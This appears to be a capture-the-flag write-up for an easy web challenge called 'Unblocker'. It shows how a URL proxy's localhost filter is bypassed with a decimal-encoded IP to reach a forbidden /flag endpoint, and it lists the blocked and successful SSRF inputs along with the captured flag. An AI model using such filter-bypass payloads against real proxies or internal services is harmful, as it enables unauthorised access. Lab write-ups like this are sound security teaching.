



# Unblocker

> Web - Easy

**Description**: Need to access a blocked website? Use our unblocker to access it!

Clicking on **Access Restricted Content** takes us to `http://unblck3r.eng.run/flag` endpoint, which is Forbidden \
Passing the same in unblocker gives `Error: Received status code 403`

Further inspection tells that on clicking on "Unblock", a GET request is made at `/proxy?url=<input_url>` by the iframe

Trying different enumerations of *localhost*:

- `http://localhost/flag` -> Blocked unsafe URL
- `http://127.0.0.1/flag` -> Blocked unsafe URL
- `http://[::1]/flag` -> Blocked unsafe URL
- `http://2130706433/flag` -> flag{cd3d0356d34630b7b97f972b23a5ee38}
